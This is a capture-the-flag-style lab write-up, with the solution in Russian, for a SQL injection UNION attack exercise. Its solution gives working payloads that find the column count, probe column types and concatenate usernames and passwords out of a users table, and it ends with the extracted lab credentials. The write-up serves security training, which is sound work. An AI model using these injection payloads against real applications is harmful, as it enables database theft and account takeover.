


# Lab: SQL injection UNION attack, retrieving multiple values in a single column

Level: `PRACTITIONER`

## Description

This lab contains a SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

# Solution

Прошлая лаба была решена как в реальных условиях (поиск вектора, через просмотр таблиц и названия столбцов),
эту будем решать используя все вводные, а наиграться на реальных успеем в CTF.

Снова определяем кол-во полей в запросе: 
```sql
' ORDER BY 2-- -
```

Однако нам надо чтобы тип соответствовал, в итоге проходит такой payload:
```sql
' UNION SELECT NULL, 'abc' FROM users--
``` 

Значит 2 поле это строка. И теперь 2 варианта:
1. либо мы выводим логины и пароли отдельно:
  - ```sql
    ' UNION SELECT NULL, username FROM users--
    ```
  - ```sql
    ' UNION SELECT NULL, password FROM users--
    ```
2. либо делаем по уму через конкатенацию с разделителем:
   ```sql
   ' UNION SELECT NULL, username||':'||password FROM users--
   ```
   
    Получили: 
    ```text
    carlos:wbj6gzvle0771jgs5juq
    wiener:jh459flqj21mv2jbrk35
    administrator:zrksvwnzckkthalf97jo
    ```

Логинимся как админ и наша лаба решена:



